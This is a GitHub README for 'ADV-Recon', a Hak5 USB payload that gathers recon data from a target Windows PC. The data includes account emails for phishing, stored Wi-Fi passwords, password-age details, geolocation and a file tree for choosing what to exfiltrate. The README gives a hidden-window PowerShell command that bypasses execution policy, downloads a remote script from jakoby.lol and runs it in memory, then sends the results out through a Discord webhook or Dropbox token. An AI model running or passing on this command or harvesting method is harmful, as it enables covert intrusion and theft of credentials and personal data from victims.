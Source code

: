 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# ADV-Recon

A script used to do an advanced level of Recon on the targets computer.

Version 2 no longer requires you to host your own version of the script.

Modifying the execution script is the only necessary interaction.

## Description

This program enumerates a target PC to collect as much recon data as possible for future engagements. This includes:

* Hosts Powershell Version (to know what commands can be run)
* Name Associated with their Microsoft Account (Or ENV UserName variable if one is not detected)
* Whether they are in the Admin group or not
* The email associated with their Microsoft Account (for phishing possibilities)
* Other User accounts on their system (for possible privledge escalation)
* Details on their login settings (Ex: Min/Max password age and length)
* How many days since they have changed their password (Max password age - Days since = Opportunity)
* Their GeoLocation (know their approximate where abouts)
* Nearby Wifi Networks (Possible lateral movement)
* Network Info (Local and Public IP Address; MAC Address; RDP Enabled?)
* WLAN Profiles (List of SSIDs and Passwords stored on their PC)
* Network Interfaces (What are they connecting in and out with)
* System Information (Manufacturer, Model, Serial Number, OS, CPU, RAM, Mainboard BIOS)
* Local Users (Accounts on system with Username, name associated with microsoft account and SID)
* Information on their HardDrives (Indicator of Recon Scope)
* COM and Serial Devices (Is there a device connected you can manipulate?)
* Active TCP Connections (Poor mans Port Scanning)
* Processes, Services, Software, and Drivers (What is running on the computer we can exploit?)
* Video Card info (how much vroom vroom?)
* Tree Command (Gain a more accurate assessment of what to exfil or use in Phishing attacks)

## Getting Started

### Dependencies

* DropBox or Discord
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your discord webhook 

`$db` is the variable that stores your dropbox token 

Fill in either or both of these two methods to exfil your collected data

```
powershell -w h -NoP -Ep Bypass $dc='';$db='';iwr jakoby.lol/aucrjmf | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

* 0.2
    * Added additional data queries
    * Optimized output of data

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>
